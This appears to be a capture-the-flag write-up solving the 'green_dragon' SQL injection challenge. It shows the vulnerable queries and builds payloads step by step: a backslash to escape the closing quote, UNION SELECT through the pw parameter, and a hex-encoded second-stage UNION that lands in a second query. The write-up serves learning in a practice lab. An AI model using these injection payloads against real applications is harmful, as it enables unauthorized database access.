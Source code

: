 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 25
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a2a4e0ba-a94a-47b7-87fd-6b701374d2b8)

We are provided with two SQL queries:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

```sql
SELECT id FROM prob_green_dragon WHERE id='{$result[id]}' AND pw='{$result[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw=UNION SELECT 1, 2 -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT 1, 2 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/67f050bb-24ab-453d-9d4c-482e23491d03)

Interestingly, we can see that the values in the `?pw` parameter (`1,2`) have been inserted in the second query.

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2'
```

Using the same technique, in order to convert part of the second query into a string.

We can provide the following URI:

```
?id=\&pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -
```

`0x554e494f4e2053454c45435420307836313634366436393665202d2d202d` is the Hexadecimal representation of `UNION SELECT 0x61646d696e -- -` and `0x5C` id Hexademical for `\`.

The resultant first query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT \, UNION SELECT 0x61646d696e -- - -- -'
```

The resultant second query becomes:

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2' UNION SELECT 0x61646d696e -- -
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b3e82b2e-fb6d-4d6e-a363-e5b7526dcaf3)
